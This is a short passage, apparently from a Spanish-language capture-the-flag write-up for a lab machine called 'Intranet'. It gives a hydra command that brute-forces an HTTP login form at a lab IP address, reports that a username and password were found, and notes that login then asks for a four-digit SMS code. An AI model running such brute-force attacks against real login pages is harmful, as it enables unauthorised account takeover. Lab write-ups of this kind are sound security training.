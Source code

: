 <figure><img src="../.gitbook/assets/Intranet/john_contra.png" alt=""><figcaption></figcaption></figure>

Realizamos un ataque de fuerza bruta con `hydra` y logramos obtener tanto el nombre de usuario como la contraseña.

```
hydra -L list-usernames.txt -P list_comple.txt 10.10.141.85 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error" -t 64
```

<figure><img src="../.gitbook/assets/Intranet/hydra_result2.png" alt=""><figcaption></figcaption></figure>

Podemos iniciar sesión, pero se nos solicita una verificación por SMS de cuatro dígitos para continuar (2FA).

<figure><img src="../.gitbook/assets/Intranet/sms_init.png" alt=""><figcaption></figcaption></figure>
